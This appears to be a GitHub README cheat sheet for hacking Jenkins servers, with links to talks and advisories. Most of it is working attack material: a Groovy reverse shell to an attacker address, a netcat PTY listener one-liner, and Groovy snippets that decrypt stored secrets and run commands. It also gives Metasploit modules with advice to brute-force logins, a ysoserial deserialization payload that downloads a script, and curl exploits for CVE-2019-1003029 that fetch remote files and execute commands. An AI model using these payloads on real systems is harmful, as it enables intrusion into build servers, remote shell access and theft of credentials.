 # Secure-or-Break-Jenkins
## Hack Jenkins! it's sweet
![](https://e5s6t7j5.rocketcdn.me/wp-content/uploads/2022/02/Jenkins-Best-Security-Practices.png)

### Talks
[BlackHat USA 2022](https://www.youtube.com/watch?v=Pe9nJLZvABM)

[Hacking Jenkins - Orange Tsai](https://www.youtube.com/watch?v=_x8BsBnQPmU)

[Best Practices for securing CI/CD Pipelines](https://www.youtube.com/watch?v=i3Bx1iSzrUY)

[CI/CD Pipeline Security - AWS](https://www.youtube.com/watch?v=BprhSs1eSWw)

### Writeup
[RCE in Jenkins](https://faizal-ctf.notion.site/Jenkins-Remote-Execution-Via-Malicious-Jobs-1247f23b95f043c08e5e7e0c183223ad?pvs=4)

## Extras
Reverse shell from Groovy
-------------------------
```m
In the left sidebar, navigate to "Manage Jenkins" > "Script Console", or just go to $rhost:8080/script

```


```java
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

I'll leave this reverse shell tip to have a fully working PTY here in case anyone needs it , so dont do just nc -nlvp port instead do this :

```bash
stty raw -echo; (echo 'script -qc "/bin/bash" /dev/null';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-256color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp port && reset
```
Groovy Scripts
==============
Decrypt Jenkins secrets from Groovy
-----------------------------------

```java
println(hudson.util.Secret.decrypt("{...}"))
```


Command execution from Groovy
-----------------------------

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```
#### MSF exploit
**You can use MSF to get a reverse shell :

```bash
msf> use exploit/multi/http/jenkins_script_console
```
#### Bruteforce
**Jekins does not implement any password policy or username brute-force mitigation. 
Then, you should always try to brute-force users because probably weak passwords are being used (even usernames as passwords or reverse usernames as passwords).

```bash
msf> use auxiliary/scanner/http/jenkins_login
```
=====================
Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)
---------------------------------------------------------------------------
Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```


Authentication/ACL bypass (CVE-2018-1000861, Jenkins <2.150.1)
--------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2018-12-05/)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:
```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```


Metaprogramming RCE in Jenkins Plugins (CVE-2019-1003000, CVE-2019-1003001, CVE-2019-1003002)
---------------------------------------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-01-08)

Original RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html), full exploit [here](https://github.com/petercunha/jenkins-rce).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).


CheckScript RCE in Jenkins (CVE-2019-1003029, CVE-2019-1003030)
---------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-03-06/), [Credits](https://twitter.com/webpentest).

Check if a Jenkins instance is vulnerable (needs Overall/Read permissions) with some Groovy:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

Execute arbitraty bash commands:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt".execute()}}'
```

If you don't immediately get a reverse shell you can debug by throwing an exception:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){def proc="id".execute();def os=new StringBuffer();proc.waitForProcessOutput(os, System.err);throw new Exception(os.toString())}}'
```

Git plugin (<3.12.0) RCE in Jenkins (CVE-2019-10392)
----------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-09-12/), [Credits](https://iwantmore.pizza/posts/cve-2019-10392.html).

This one will only work is a user has the 'Jobs/Configure' rights in the security matrix so it's very specific.


CorePlague (CVE-2023-27898, CVE-2023-27905)
-------------------------------------------
[Jenkins Advisory](https://www.jenkins.io/security/advisory/2023-03-08/), [Credits](https://blog.aquasec.com/jenkins-server-vulnerabilities)

Note that this is only exploitable if using a *dedicated* and out-of-date [Update Center](https://www.jenkins.io/templates/updates/). Therefore most servers are not vulnerable.

